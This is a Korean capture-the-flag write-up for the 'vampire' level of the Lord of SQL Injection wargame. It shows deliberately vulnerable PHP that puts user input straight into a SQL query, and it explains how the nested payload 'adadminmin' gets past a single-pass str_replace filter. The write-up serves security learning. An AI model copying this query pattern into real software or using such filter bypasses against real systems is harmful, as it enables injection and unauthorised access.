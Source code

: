 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - vampire 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제도 역시 간단하게 풀 수 있었다.  

일단 소스코드가 짧으니 문제가 더 간단하게 느껴지는 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------
query : select id from prob_vampire where id=''
----------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

처음에 문제를 보고 `troll` 문제랑 같은 문제인 줄 알았다.  

그런데 이번 문제에서는 `ereg()` 함수가 사라지고 `strtolower()`과 `str_replace()` 함수가 생겼다.  

함수 이름에서도 알 수 있다시피 `strtolower()` 함수는 문자열의 대문자를 소문자로 바꾸어주는 함수이고, `str_replace()` 함수는 특정 문자열을 내가 지정한 문자열로 바꾸어 주는 함수이다.  

문제에서는 `GET` 방식으로 받아 온 값에서 `admin`이라는 문자를 `공백`으로 바꾸어 준다.  

그런데 이 `str_replace()` 함수에는 한가지 단점(?)이 있는데, 전체 문자열 전체를 한번만 검사하고 재검사는 하지 않는다는 것이다.  

만약에 `str_replace("admin", "", $var)`라고 구현한다면 아래와 같이 문자열이 있을 경우 결과는 다음과 같다.  

```php
# before

$var = "admin phpmyadmin administrator."

#after

$var = " phpmy istrator."
```

그런데 만약 `adadminmin` 라는 문자열이 있다면 가운데의 `admin`만 필터링 되어 사라지고 앞의 `ad`와 뒤의 `min`이 합쳐져 다시 `admin`이라는 단어를 만들 수 있게 된다.  

역시나 주소창에 아래처럼 입력했더니 문제를 풀 수 있었다.  

```
?id=adadminmin
```

```php
------------------------------------------------------------------------
query : select id from prob_vampire where id='admin'
------------------------------------------------------------------------

VAMPIRE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

`VAMPIRE Clear!!`
